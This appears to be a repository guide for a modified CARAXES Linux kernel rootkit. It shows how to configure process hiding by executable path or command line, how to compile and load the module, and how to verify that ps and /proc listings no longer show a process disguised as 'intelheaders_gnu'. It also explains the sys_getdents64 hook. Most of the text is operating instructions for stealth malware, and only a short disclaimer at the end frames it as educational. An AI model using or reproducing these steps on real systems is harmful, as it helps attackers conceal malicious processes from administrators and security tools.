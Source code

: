 # Process Hiding Guide for CARAXES Rootkit

This guide explains how to use the modified CARAXES rootkit to hide processes by their executable path or command line arguments.

## Configuration

The process hiding functionality is configured in `rootkit.h` with these variables:

```c
// Process hiding by executable path or command line
char* HIDE_PROCESS_EXE = "/usr/bin/intelheaders_gnu";
char* HIDE_PROCESS_CMDLINE = "intelheaders_gnu -i -o";
```

## How It Works

The rootkit intercepts the `sys_getdents64` syscall and checks each process directory in `/proc/` against the hiding criteria:

1. **Executable Path Matching**: Checks if the process executable path contains the string specified in `HIDE_PROCESS_EXE`
2. **Command Line Matching**: Checks if the process command line contains the string specified in `HIDE_PROCESS_CMDLINE`

## Usage Examples

### Example 1: Hide by Executable Path

To hide all processes running `/usr/bin/intelheaders_gnu`:

```c
char* HIDE_PROCESS_EXE = "/usr/bin/intelheaders_gnu";
char* HIDE_PROCESS_CMDLINE = NULL; // Disable cmdline matching
```

### Example 2: Hide by Command Line Arguments

To hide processes with specific arguments like "intelheaders_gnu -i -o":

```c
char* HIDE_PROCESS_EXE = NULL; // Disable exe path matching
char* HIDE_PROCESS_CMDLINE = "intelheaders_gnu -i -o";
```

### Example 3: Hide by Both (OR condition)

To hide processes that match either the executable path OR command line:

```c
char* HIDE_PROCESS_EXE = "/usr/bin/intelheaders_gnu";
char* HIDE_PROCESS_CMDLINE = "intelheaders_gnu -i -o";
```

## Compilation and Installation

1. Modify the configuration in `rootkit.h`
2. Compile the rootkit:
   ```bash
   make clean
   make
   ```
3. Load the rootkit:
   ```bash
   sudo insmod caraxes.ko
   ```

## Testing

1. Start your target process:
   ```bash
   /usr/bin/intelheaders_gnu -i -o some_arguments &
   ```

2. Check if it's visible before loading the rootkit:
   ```bash
   ps aux | grep intelheaders_gnu
   ls /proc/ | grep -E '^[0-9]+$' | xargs -I {} sh -c 'cat /proc/{}/cmdline 2>/dev/null | grep -l intelheaders_gnu'
   ```

3. Load the rootkit:
   ```bash
   sudo insmod caraxes.ko
   ```

4. Verify the process is now hidden:
   ```bash
   ps aux | grep intelheaders_gnu  # Should show no results
   ls /proc/ | grep -E '^[0-9]+$' | xargs -I {} sh -c 'cat /proc/{}/cmdline 2>/dev/null | grep -l intelheaders_gnu'  # Should show no results
   ```

5. Remove the rootkit to make processes visible again:
   ```bash
   sudo rmmod caraxes
   ```

## Technical Details

The process hiding works by:

1. **Hooking `sys_getdents64`**: Intercepts directory listing calls
2. **PID Detection**: Identifies numeric directory names in `/proc/` as potential process IDs
3. **Process Lookup**: Uses `pid_task(find_vpid(pid), PIDTYPE_PID)` to find the task structure
4. **Executable Path Check**: Reads the executable path using `d_path(&exe_file->f_path, ...)`
5. **Command Line Check**: Reads command line arguments from process memory using `access_process_vm()`
6. **Directory Entry Removal**: Removes matching process directories from the listing

## Limitations

- Only hides processes from directory listings (`ls /proc/`, `ps`, etc.)
- Does not hide from direct access (e.g., `cat /proc/1234/cmdline` still works if you know the PID)
- Performance impact when listing `/proc/` due to process inspection
- May not work with all kernel versions due to internal API changes

## Security Considerations

- This is for educational and research purposes only
- Use responsibly and only on systems you own or have permission to test
- The rootkit can be detected by advanced security tools
- Always have a way to remove the rootkit (avoid using `hide_module()` during testing)
